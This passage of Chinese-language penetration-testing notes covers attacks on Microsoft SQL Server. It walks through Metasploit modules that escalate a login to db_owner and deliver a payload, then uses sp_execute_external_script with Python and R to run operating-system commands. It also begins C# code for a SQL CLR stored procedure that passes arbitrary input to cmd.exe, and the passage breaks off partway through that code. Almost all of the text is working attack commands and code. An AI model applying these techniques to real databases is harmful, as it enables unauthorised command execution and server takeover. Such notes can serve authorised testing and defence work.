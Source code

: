 	>use auxiliary/admin/mssql_escalate_dbowner
	>set rhosts 192.168.1.146
	>set username name
	>set password Password@1
	>exploit
	提权成功后获取会话
	>use exploit/windows/mssql/mssql_payload
	>set rhosts 192.168.1.146
	>set username name
	>set password Password@1
	>exploit
  #### 启用外部脚本执行命令
	查看服务器是否启用
	sp_configure 'external scripts enabled'
	GO
  	当maximum，config_value，run_value为1时则确认启动
	执行python
	>EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("ipconfig"))'
	执行R Script
	>EXEC sp_execute_external_script
	>@language=N'R',
	>@script=N'OutputDataSet <- data.frame(system("cmd.exe /c ipconfig",intern=T))'
	>WITH RESULT SETS (([cmd_out] text));
	>GO
  #### CLR
  	VS创建sql server数据库项目，选择目标平台和创建脚本.sql文件，修改目标框架和权限级别unsafe
	创建SQL CLR C#存储过程，写入代码
```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    {
        // 在此处放置代码
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    }
    public static string RunCommand(string filename,string arguments)
    {
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        {
            process.StartInfo.Arguments = arguments;
        }

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
```